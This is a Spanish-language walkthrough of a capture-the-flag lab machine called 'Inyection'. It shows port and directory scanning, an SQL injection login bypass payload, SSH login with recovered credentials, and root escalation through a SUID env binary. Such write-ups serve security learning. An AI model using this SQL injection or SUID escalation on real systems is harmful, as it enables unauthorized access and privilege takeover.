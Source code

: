 # Explotación de la máquina Inyection

## Información general
- **Nombre de la máquina**: Inyection
- **Dirección IP**: 172.17.0.2
- **Puntos de entrada**: HTTP (puerto 80), SSH (puerto 22)

## Reconocimiento
Realizamos un escaneo de puertos, servicios y versiones con el siguiente comando.

```bash
nmap -sCV -sS -n -Pn -p- 172.17.0.2

Nmap scan report for 172.17.0.2
Host is up (0.000020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
El puerto 22 y el 80 estan abiertos con los servicios SSH y Apache, primero revisamos el servicio web y utilizamos gobuster para buscar posibles directorios.

## Gobuster

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,py

```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,py
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2921]
/.html                (Status: 403) [Size: 275]
/config.php           (Status: 200) [Size: 0]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================

```
Encontramos dos archivos php, en config.php no encontré nada asi que revisamos el index.php.

Probamos una inyección SQL simple colocando 'or 1=1-- - en el nombre de usuario y cualquier cosa en la contraceña.


Logramos logearnos y  vemos que hay un usuario y una contraseña, los usamos en el ssh.


## SSH

```
ssh 172.17.0.2 -l dylan

```
Nos pide la contraceña, la escribimos y estamos dentro.

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:5ic4ZXizeEb8agR4jNX59cBONCe5b5iEcU9lf2zt0Q0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@a83a137e0699:~$ 

```

## Escalando privilegios

Buscamos binarios con permisos SUID.

```
find / -perm -4000 -user root 2>/dev/null

```

```
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
```

Aparece el binario /usr/bin/env asi que ejecutamos el sigiente comando desde la raiz del sistema y estamos como root.

```
./usr/bin/env /bin/sh -p

```

```
# whoami
root
# 
```
